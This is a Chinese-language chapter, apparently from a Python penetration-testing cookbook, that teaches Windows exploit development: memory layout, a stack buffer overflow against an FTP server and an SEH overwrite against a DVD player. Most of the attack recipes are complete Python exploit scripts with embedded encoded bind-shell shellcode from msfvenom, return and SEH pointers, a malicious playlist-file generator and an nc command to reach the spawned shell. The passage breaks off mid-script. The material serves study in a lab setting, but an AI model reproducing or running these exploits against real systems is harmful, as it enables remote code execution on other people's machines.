# 十三、Windows 利用开发

在本章中，我们将介绍以下配方：

*   Windows 内存布局
*   使用保存的返回指针覆盖的缓冲区溢出攻击
*   结构化异常处理（SEH）
*   鸡蛋猎人

# 介绍

本章将介绍一些基于 Windows 的漏洞和使用 Python 的攻击技术。利用利用开发任务的解决方案是将程序指令替换为操作应用程序行为的指令。我们将使用免疫调试器来调试应用程序。由于受害者机器将是 Windows 机器，因此我们需要安装 Windows XP 操作系统的机器。我们使用旧的 XP 版本是为了易于利用，带有漏洞的示例应用程序将在 XP 中工作。

# Windows 内存布局

Windows 操作系统内存有许多部分可以被视为高级组件。要编写漏洞攻击和利用易受攻击的程序，我们必须了解内存结构及其部分。

# 准备

在开始编写利用漏洞脚本之前，我们必须了解 Windows 内存布局的结构。

让我们看一下可执行文件的内存结构：


由于我们在大多数利用漏洞的情况下使用堆栈和堆，我们可以从这些开始。

# 堆栈

堆栈以有序的方式用于短期本地存储。应用程序中的每个线程都有一个堆栈。调用线程或函数时，会为其指定一个具有固定大小的唯一堆栈。堆栈的大小在应用程序或线程启动时定义。此外，当这个函数或线程完成时，这个堆栈会被破坏。堆栈主要用于存储局部变量、保存函数返回指针、函数参数异常处理程序记录等。

堆栈从堆栈底部到顶部构建数据，从高内存地址到低内存地址：


# 堆

堆动态地用于分配内存。当应用程序不知道它将接收或处理的数据时，使用堆。因此，堆用于存储全局变量和无序分配的值。只有当应用程序终止时，堆才会被释放。

堆的增长方向与堆栈相反。它从较低的地址增长到较高的地址：


# 程序映像和动态链接库

程序映像是实际可执行文件存储在内存中的位置。可执行文件将采用**可移植可执行文件**（**PE**格式），包括可执行文件和 DLL。本节定义了一些项目，如 PE 头、`.text`、`.rdata`、`.data`等。PE 头定义了剩余可执行文件的头信息，`.text`包括代码段。`.rdata`是只读数据段，`.rsrc`是存储可执行文件的图标、菜单和字体等资源的部分。

# 过程环境块（PEB）

当我们运行应用程序时，该可执行文件的实例将作为进程运行，并提供运行该应用程序所需的资源。存储正在运行的进程的非内核组件的进程属性是 PEB。此外，PEB 驻留在用户可访问的内存中。

有关 PEB 结构的更多详细信息，请点击此链接：[https://msdn.microsoft.com/en-us/library/windows/desktop/aa813706（v=vs.85）。aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa813706(v=vs.85).aspx)

# 线程环境块（TEB）

某些进程可能有一个或多个线程。在这种情况下，每个进程从一个主线程开始，并在需要时创建更多的附加线程。此外，所有这些线程共享相同的虚拟地址。每个线程都有自己的资源，包括异常处理程序、本地存储等等。所以，像 PEB 一样，每个线程都有 TEB。TEB 也驻留在进程地址空间中。

您可以在下面的文章中阅读更多关于进程和线程的内容：[https://msdn.microsoft.com/en-us/library/windows/desktop/ms681917（v=vs.85）。aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms681917(v=vs.85).aspx) 此外，关于 TEB 结构的更多信息可以在这里找到：[https://msdn.microsoft.com/en-us/library/windows/desktop/ms686708（v=vs.85）。aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686708(v=vs.85).aspx)

我们需要一台安装了免疫调试器的 Windows XP 计算机来分析示例应用程序。

# 怎么做。。。

以下是了解免疫调试器基本用法的步骤：

1.  在 Windows 计算机中打开免疫调试器。
2.  然后在调试器中加载要分析的程序。从菜单中选择文件|打开并选择要监视的应用程序：



3.  我们可以通过打开内存映射来查看内存映射。您可以从菜单视图|内存或点击*Alt*+*M*键打开：



这将打开以下窗格：



这是在调试器中打开的应用程序的内存映射。这包括所有堆栈、堆、DLL 和可执行文件。

您可以按如下方式查看堆栈：


DLL 的标识如下所示：



程序图像及其内容如下所示：


DLL、TEB 和 PEB 的标识如下：



4.  通过右键单击地址并选择转储选项，我们可以获得 PEB 和 TEB 的内存转储：


# 保存的返回指针覆盖导致缓冲区溢出

在此配方中，我们将讨论利用具有缓冲区溢出漏洞和保存的返回指针覆盖的应用程序。

# 准备

我们可以使用**FreeFLOTFP**作为易受攻击的应用程序。您可以从以下地址获得申请：[https://rejahrehim.cimg/sample-package/ftp_server_sample.zip](https://rejahrehim.cimg/sample-package/ftp_server_sample.zip) 。

易受攻击的计算机环境是 Windows XP。因此，在真实或虚拟环境中运行 Windows XP，并在其中安装免疫调试器。

# 安装 Mona

我们需要安装 Mona，一个免疫调试器的`pycommand`模块。为此，请从以下网址下载`mona.py`：[https://github.com/corelan/mona](https://github.com/corelan/mona) 。

然后，将`mona.py`添加到`Immunity Debugger`应用程序文件夹中的`pyCommands`文件夹中：


# 怎么做。。。

按照以下步骤创建利用缓冲区溢出攻击的漏洞：

1.  在 Windows 计算机中，启动免疫调试器并在其中打开易受攻击的应用程序。
2.  由于它是一个 FTP 服务器，我们可以尝试通过从另一台机器连接来使应用程序崩溃。
3.  我们可以编写一个脚本，用 Python 连接到 FTP 服务器。为此，请创建一个`ftp_exploit.py`并在编辑器中打开它：

```
#!/usr/bin/python  
import socket 
import sys   
evil = "A"*1000   
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
connect=s.connect(('192.168.1.39',21))   
s.recv(1024) 
s.send('USER anonymous\r\n') 
s.recv(1024) 
s.send('PASS anonymous\r\n') 
s.recv(1024) 
s.send('MKD ' + evil + '\r\n') 
s.recv(1024) 
s.send('QUIT\r\n') 
s.close  
```

这会创建大量数据并将其发布到 Windows 计算机中的 FTP 服务器。通过发送此消息，程序将崩溃：


在这里，您可以看到 EIP 寄存器被我们提供的缓冲区覆盖。此外，ESP 和 EDI 寄存器也包含我们的缓冲区。

4.  接下来，我们要分析这次事故。为此，我们需要用一个模式替换有效负载中的`A`。我们可以使用以下脚本生成模式：[https://github.com/Svenito/exploit-pattern](https://github.com/Svenito/exploit-pattern) 。

下载脚本

5.  我们需要生成一个与之前提供的负载完全相同的模式。下载脚本后，生成包含 1000 个字符的模式。复制生成的模式：


6.  使用该模式作为有效负载更新 Python 脚本。因此，替换脚本中的以下行：

```
evil = "A"*1000 
```

使用以下代码：

```
evil = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B" 

```

7.  现在在测试机器上运行的免疫调试器中重新启动应用程序：


8.  然后再次运行 Python 脚本：



这也会使应用程序崩溃，但 EIP 寄存器会使用我们注入的部分模式进行更新

9.  现在我们可以使用`mona`来分析碰撞。在调试器控制台中运行以下命令：

```
!mona findmsp    
```

输出结果如下：



由此我们可以确定 EIP 寄存器在第 247 个字节之后被 4 个字节覆盖。

10.  所以现在我们可以更新模式，它可以用我们想要的数据覆盖 EIP 寄存器。

因此，我们可以尝试为前 247 写 A，然后为 EIP 寄存器写 4B，并用 C 添加填充，因为我们需要 1000。然后使用新的负载更新 Python 脚本：

```
evil = "A"*247 + "B"*4 + "C"*749      
```

在调试器中重新启动应用程序，然后再次运行 Python 脚本。这也会使应用程序崩溃。但是，请检查注册表：



现在，EIP 被我们提供的值覆盖。这里是`42424242,`，也就是`BBBB`。

11.  现在我们必须用指针替换`BBBB`，以将执行流重定向到 ESP 寄存器。我们可以利用`mona`找到这个指针：

```
!mona jmp -r esp    
```

输出结果如下：


我们可以使用列表中的第一个指针，即`77def069`。

12.  现在，使用我们选择的指针制作有效负载。确保反转字节顺序以匹配 CPU 的小端结构。在`evil`中使用以下值更新 Python 脚本：

```
evil = "A"*247 + "\x69\xf0\xde\x77" + "C"*749  
```

现在在免疫调试器中重新启动应用程序，并将断点设置为`77def069`。您可以使用调试器中的“转到”选项转到该地址：


按如下方式设置断点：


选择“访问时内存”选项。

然后运行 Python 脚本。这将在断点处中断应用程序，我们可以按如下方式查看寄存器：



13.  现在，我们可以从 Metasploit 生成 shell 代码并将其包含在有效负载中：

```
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00\x0A\x0D' -i 3 -f python 
```



14.  使用 shell 代码更新脚本。然后脚本将如下所示：

```
#!/usr/bin/python   
import socket 
import sys  
buf =  "" 
buf += "\xbf\x9e\xc5\xad\x85\xdb\xd5\xd9\x74\x24\xf4\x5e\x2b" 
buf += "\xc9\xb1\x5b\x83\xee\xfc\x31\x7e\x11\x03\x7e\x11\xe2" 
buf += "\x6b\x7f\xe5\xd1\x52\x2f\x2c\x11\x8d\x44\xf5\x56\x73" 
buf += "\x94\x3c\x27\xde\xe7\xe8\x5a\x63\xc1\x11\x58\x7d\x94" 
buf += "\x3a\x04\xc4\x94\x24\x50\x67\x99\x3f\x8a\x42\x38\xa1" 
buf += "\x5d\x62\xd7\x19\x04\xbb\x10\x79\x3c\xf1\x22\x2d\x15" 
buf += "\x50\x23\x53\xe3\xb6\xe5\x7e\xc1\xe1\x89\x97\x85\xa2" 
buf += "\xbc\xbd\x3b\xb9\xbb\x71\x02\xde\x93\xe3\xc0\x22\x24" 
buf += "\xa5\x5d\x88\x4d\x31\xe6\xf9\xa2\xaf\x87\xd3\xc0\xaf" 
buf += "\xc3\xa5\x06\x8b\xb7\xac\xf0\x18\x10\x6b\xc4\xb4\x71" 
buf += "\xdf\x88\xd7\xda\xe0\x34\xa5\x88\xe0\x38\x6f\x6a\x06" 
buf += "\xbe\xe5\x63\xe3\xc8\x09\x91\xee\x9c\x75\x23\xe3\x7c" 
buf += "\xb5\xe9\xef\xc7\x12\x1e\x05\xa8\x26\x9e\xed\x7e\x86" 
buf += "\xce\x78\xec\x7e\x6e\x3b\x91\xa2\x8d\x1c\xc0\x08\x80" 
buf += "\xd2\x78\x88\xbd\xb7\xf5\x7e\x84\x51\x88\x5a\xa8\xbe" 
buf += "\x83\x9b\x46\x59\xbb\xb1\xe3\xd3\x52\xbe\x06\x2a\xbb" 
buf += "\xbc\x2a\x43\xb0\x6f\x91\x66\x73\x81\x58\x03\xc1\x03" 
buf += "\xa8\xf2\xe8\x3d\x9c\x69\x98\x59\xb4\x0c\x55\x85\x30" 
buf += "\x14\x49\x27\x9f\xfa\x79\x38\x6e\xfc\xf5\x49\x14\x83" 
buf += "\x64\x40\x5f\x52\xd7\xf1\x62\xec\xa6\xf0\x3d\xb9\xb7" 
buf += "\xd3\xa4\x17\xd0\xb2\x54\xb0\x82\x4b\xde\x2e\xd9\xda" 
buf += "\x34\xfb\xc3\xfa\xfc\xc9\xde\x24\x9f\x60\x03\xf5\xc0" 
buf += "\xcd\x33\x61\xd2\xe7\xd5\xce\xa3\xb1\xcc\x5d\x29\x94" 
buf += "\x20\xe5\x8f\xa8\x30\x0e\x0b\x78\x72\xd7\x88\x46\xa4" 
buf += "\x7e\x09\x5b\x8d\xff\xd8\x89\xb0\x86\xc4\x3d\x25\xf4" 
buf += "\x52\xdf\xa7\xde\x6b\x04\xce\x52\xa2\xa1\xb5\x7c\x2e" 
buf += "\x14\xee\xe1\x8d\xb9\x5d\xa5\x22\xd0\x5d\xd2\x61\xfa" 
buf += "\x3c\xae\xa3\x76\xca\x30\xcd\xe0\x74\xb8\x75\x7e\x0b" 
buf += "\x81\xf6\x03\x71\x07\x17\x6d\xf6\xa5\xf9\xdd\x42\xe8" 
buf += "\x6f\x82\x65\x6d\x92\xd5\x17\x85\x82\x48\x04\x53\xde"  
buffer = "\x90"*20 + buf 
evil = "A"*247 + "\x59\x54\xC3\x77" + buffer + "C"*(749-len(buffer))  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
connect=s.connect(('192.168.1.37',21)) 
print (connect)  
s.recv(1024) 
s.send('USER anonymous\r\n') 
s.recv(1024) 
s.send('PASS anonymous\r\n') 
s.recv(1024) 
s.send('MKD ' + evil + '\r\n') 
s.recv(1024) 
s.send('QUIT\r\n') 
s.close 
```

15.  在调试器中重新启动应用程序并运行 Python 脚本。这将注入 shell 代码。现在我们可以尝试使用`nc`连接到受害者机器：

```
nc -nv 192.168.1.37 4444  
```


# 结构化异常处理

**结构化异常处理**（**SEH**是防止缓冲区溢出的保护机制。SEH 使用链表，因为它包含一系列数据记录。当异常发生时，操作系统将浏览此列表并检查合适的异常功能。为此，异常处理程序需要一个指向当前异常注册记录（SEH）的指针和另一个指向下一个异常注册记录（nSEH）的指针。随着 Windows 堆栈向下增长，顺序将颠倒：



因此，如果我们可以用`POP POP RETN`指令覆盖 SEH，POP 将从堆栈顶部删除四个字节，RETN 将返回堆栈顶部的执行。由于 SEH 位于`esp+8`，我们可以将堆栈增加 8 个字节，并返回到堆栈顶部的新指针。然后我们将执行 nSEH。因此，我们可以添加一个四字节的操作码来跳转到另一个内存位置，在那里我们可以包含 shell。

# 准备

在此配方中，我们将使用另一个易受攻击的应用程序：DVD X Player 5.5 PRO。您可以从以下网址下载：[https://rejahrehim.cimg/sample-package/dvd_player_sample.zip](https://rejahrehim.cimg/sample-package/dvd_player_sample.zip) 。

与前面的方法一样，我们需要一台受害者机器，Windows XP，安装有免疫调试器和`mona.py`。另外，在 Windows 计算机上安装下载的应用程序 DVD X Player 5.5 PRO。

# 怎么做。。。

以下是为 SEH 攻击创建利用脚本的步骤：

1.  在 Windows 计算机中启动免疫调试器，并将易受攻击的应用程序附加到该计算机：





2.  创建一个名为`dvd_exploit.py`的 Python 文件来利用 DVD 播放器的漏洞，并在编辑器中打开它。
3.  当我们基于文件格式创建漏洞时，我们将创建一个播放列表文件（`.plf`，其中包含一个长缓冲区，并允许 DVD 播放机读取该文件。由于缓冲区过长，DVD 播放机将因缓冲区溢出而崩溃。因此，受害者需要打开播放列表文件：

```
#!/usr/bin/python 
filename="evil.plf"  
buffer = "A"*2000    
textfile = open(filename , 'w') 
textfile.write(buffer) 
textfile.close()  
```

4.  然后通过运行 Python 脚本创建播放列表文件，并用播放器打开：

```
python dvd_exploit.py 
```

这将创建一个`evil.plf`文件

5.  在 DVD 播放机中打开它。然后玩家就会崩溃。

检查寄存器中的崩溃情况。同时使用*Shift*+*F9*键通过碰撞：



在寄存器中，有许多零，因为 SEH 将它们归零。然后我们可以检查 SEH 链，以验证我们是否覆盖了 SEH：



现在，我们可以生成一个模式并更新脚本以生成播放列表文件。我们已经下载了一个脚本来生成上一个配方的模式。我们可以使用相同的脚本：

```
python exploit-pattern/pattern.py 2000    
```

6.  更新 Python 脚本中的`pattern`并生成有效负载文件：

```
#!/usr/bin/python  
filename="evil.plf"  
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"  
textfile = open(filename , 'w') 
textfile.write(buffer) 
textfile.close() 
```

7.  在应用程序中打开生成的播放列表文件。它会崩溃的。现在我们可以用`mona.py`来分析这次撞车事件，并获得详细信息。要执行此操作，请在调试器控制台中运行以下命令：

```
!mona findmsp 
```



由此我们可以推断 SEH 是 608 之后的 4 个字节。

8.  所以我们可以设计我们的测试负载，使其类似于`buffer = "A"*604 + [nSEH] + [SEH] + "D"*1384`。我们可以为 nSEH 添加`BBBB`和为 SEH 添加`CCCC`：

```
buffer = "A"*604 + "B"*4 + "C"*4 + "D"*1388 
```

那么我们的脚本将如下所示：

```
#!/usr/bin/python  
filename="evil.plf"     
buffer = "A"*604 + "B"*4 + "C"*4 + "D"*1388 
textfile = open(filename , 'w') 
textfile.write(buffer) 
textfile.close() 
```

9.  运行脚本并生成播放列表文件，然后用应用程序打开它。
10.  现在我们需要得到一个有效的指针，因为我们需要用指针覆盖 SEH。为此，我们可以使用`mona.py`：

```
!mona seh  
```

输出结果如下：


从该指针中选择`s`指针。在这里，我们可以选择以下选项：

```
0x61617619 : pop esi # pop edi # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [EPG.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.12.21.2006 (C:\Program Files\Aviosoft\DVD X Player 5.5 Professional\EPG.dll)
```

11.  现在我们可以更新脚本中的`buffer`将其写入 SEH：

```
buffer = "A"*604 + "B"*4 + "\x19\x76\x61\x61" + "D"*1388  
```

12.  现在，我们的脚本如下：

```
#!/usr/bin/python  
filename="evil.plf" 
buffer = "A"*604 + "B"*4 + "\x19\x76\x61\x61" + "D"*1388 
textfile = open(filename , 'w') 
textfile.write(buffer) 
textfile.close() 
```

13.  运行脚本并在 SEH 生成播放列表文件和断点。然后，将其加载到 DVD 播放机应用程序中。现在检查 SEH 内存位置。我们可以发现，我们放在 SEH 中的指针被转换为操作码：



14.  接下来，我们可以插入一个操作码，用`D`从 nSEH 跳转到填充区域。
15.  现在，我们可以使用 Metasploit 生成 shell 代码，并更新脚本以包含 shell 代码。我们可以使用为上一个配方生成的相同 shell 代码。现在，我们的攻击代码如下所示：

```
#!/usr/bin/python    
filename="evil.plf"  
buf =  "" 
buf += "\xbf\x9e\xc5\xad\x85\xdb\xd5\xd9\x74\x24\xf4\x5e\x2b" 
buf += "\xc9\xb1\x5b\x83\xee\xfc\x31\x7e\x11\x03\x7e\x11\xe2" 
buf += "\x6b\x7f\xe5\xd1\x52\x2f\x2c\x11\x8d\x44\xf5\x56\x73" 
buf += "\x94\x3c\x27\xde\xe7\xe8\x5a\x63\xc1\x11\x58\x7d\x94" 
buf += "\x3a\x04\xc4\x94\x24\x50\x67\x99\x3f\x8a\x42\x38\xa1" 
buf += "\x5d\x62\xd7\x19\x04\xbb\x10\x79\x3c\xf1\x22\x2d\x15" 
buf += "\x50\x23\x53\xe3\xb6\xe5\x7e\xc1\xe1\x89\x97\x85\xa2" 
buf += "\xbc\xbd\x3b\xb9\xbb\x71\x02\xde\x93\xe3\xc0\x22\x24" 
buf += "\xa5\x5d\x88\x4d\x31\xe6\xf9\xa2\xaf\x87\xd3\xc0\xaf" 
buf += "\xc3\xa5\x06\x8b\xb7\xac\xf0\x18\x10\x6b\xc4\xb4\x71" 
buf += "\xdf\x88\xd7\xda\xe0\x34\xa5\x88\xe0\x38\x6f\x6a\x06" 
buf += "\xbe\xe5\x63\xe3\xc8\x09\x91\xee\x9c\x75\x23\xe3\x7c" 
buf += "\xb5\xe9\xef\xc7\x12\x1e\x05\xa8\x26\x9e\xed\x7e\x86" 
buf += "\xce\x78\xec\x7e\x6e\x3b\x91\xa2\x8d\x1c\xc0\x08\x80" 
buf += "\xd2\x78\x88\xbd\xb7\xf5\x7e\x84\x51\x88\x5a\xa8\xbe" 
buf += "\x83\x9b\x46\x59\xbb\xb1\xe3\xd3\x52\xbe\x06\x2a\xbb" 
buf += "\xbc\x2a\x43\xb0\x6f\x91\x66\x73\x81\x58\x03\xc1\x03" 
buf += "\xa8\xf2\xe8\x3d\x9c\x69\x98\x59\xb4\x0c\x55\x85\x30" 
buf += "\x14\x49\x27\x9f\xfa\x79\x38\x6e\xfc\xf5\x49\x14\x83" 
buf += "\x64\x40\x5f\x52\xd7\xf1\x62\xec\xa6\xf0\x3d\xb9\xb7" 
buf += "\xd3\xa4\x17\xd0\xb2\x54\xb0\x82\x4b\xde\x2e\xd9\xda" 
buf += "\x34\xfb\xc3\xfa\xfc\xc9\xde\x24\x9f\x60\x03\xf5\xc0" 
buf += "\xcd\x33\x61\xd2\xe7\xd5\xce\xa3\xb1\xcc\x5d\x29\x94" 
buf += "\x20\xe5\x8f\xa8\x30\x0e\x0b\x78\x72\xd7\x88\x46\xa4" 
buf += "\x7e\x09\x5b\x8d\xff\xd8\x89\xb0\x86\xc4\x3d\x25\xf4" 
buf += "\x52\xdf\xa7\xde\x6b\x04\xce\x52\xa2\xa1\xb5\x7c\x2e" 
buf += "\x14\xee\xe1\x8d\xb9\x5d\xa5\x22\xd0\x5d\xd2\x61\xfa" 
buf += "\x3c\xae\xa3\x76\xca\x30\xcd\xe0\x74\xb8\x75\x7e\x0b" 
buf += "\x81\xf6\x03\x71\x07\x17\x6d\xf6\xa5\xf9\xdd\x42\xe8" 
buf += "\x6f\x82\x65\x6d\x92\xd5\x17\x85\x82\x48\x04\x53\xde"  
#buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo